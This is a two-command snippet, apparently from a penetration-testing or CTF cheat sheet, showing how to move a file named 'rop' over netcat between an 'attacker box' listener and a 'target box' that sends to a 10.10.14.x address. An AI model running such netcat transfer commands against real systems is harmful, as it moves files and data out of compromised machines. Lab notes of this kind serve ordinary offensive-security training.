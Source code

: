 # Transfer file with Netcat

## on attacker box

```bash
nc -nlp 1235 > rop
```

## on target box

```bash
nc -w 3 10.10.14.x 1235 < rop
```
